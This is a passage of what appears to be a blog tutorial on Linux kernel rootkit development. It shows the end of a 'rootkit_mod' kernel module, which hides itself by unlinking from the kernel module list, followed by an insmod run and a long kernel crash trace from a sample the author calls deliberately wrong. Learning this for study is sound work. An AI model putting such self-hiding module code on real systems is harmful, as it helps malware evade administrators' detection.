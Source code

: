   if (ret)
    printk(KERN_WARNING "Error in mod_timer\n");

  printk(KERN_INFO "rootkit_mod hidind itself.\n");

  mutex_lock(&module_mutex);
  list_del(&mod->list);
  mutex_unlock(&module_mutex);


  printk(KERN_INFO "rootkit_mod done.\n");
  return 0;
}
module_init(rootkit_init);

static void __exit rootkit_exit(void)
{
  printk(KERN_INFO "rootkit_mod unloaded.\n");
}
module_exit(rootkit_exit);

{% endcodeblock %}

So well do we know timmers that we will be running asynchronously. Lest check this out.. (As you probably saw in the source file this code sample is wrong and it will crash your OS so don not run it on your workstation)

{% codeblock lang:bash %}
root@a20-olimex:~$ insmod rootkitmod_wrong.ko
{% endcodeblock %}

Voila! What happened?! Bash just blew up!?

{% codeblock lang:bash %}
root@a20-olimex:~$ insmod rootkitmod_wrong.ko
root@a20-olimex:~$ <6>rootkit_callback (105679).

[ 1356.683436] rootkit_callback (105679).
<3>BUG: scheduling while atomic: swapper/1/0/0x00000103

[ 1356.692161] BUG: scheduling while atomic: swapper/1/0/0x00000103
<d>Modules linked in:[ 1356.700006] Modules linked in: cpufreq_powersave cpufreq_powersave cpufreq_stats cpufreq_stats cpufreq_userspace cpufreq_userspace cpufreq_conservative cpufreq_conservative disp_ump disp_ump mali_drm mali_drm drm drm mali mali g_ether g_ether pwm_sunxi pwm_sunxi sun4i_csi0 sun4i_csi0 videobuf_dma_contig videobuf_dma_contig videobuf_core videobuf_core gt2005 gt2005 sun4i_keyboard sun4i_keyboard ledtrig_heartbeat ledtrig_heartbeat leds_sunxi leds_sunxi led_class led_class sunxi_emac sunxi_emac sunxi_gmac sunxi_gmac sunxi_cedar_mod sunxi_cedar_mod 8192cu 8192cu ump ump lcd lcd

[<c0015058>] (unwind_backtrace+0x0/0x134) from [<c058455c>] (__schedule+0x744/0x7d0)

[   48.138925] [<c0015058>] (unwind_backtrace+0x0/0x134) from [<c058455c>] (__schedule+0x744/0x7d0)
[<c058455c>] (__schedule+0x744/0x7d0) from [<c0582a20>] (schedule_timeout+0x1b8/0x220)

[   48.155359] [<c058455c>] (__schedule+0x744/0x7d0) from [<c0582a20>] (schedule_timeout+0x1b8/0x220)
[<c0582a20>] (schedule_timeout+0x1b8/0x220) from [<c0583c04>] (wait_for_common+0xe4/0x138)
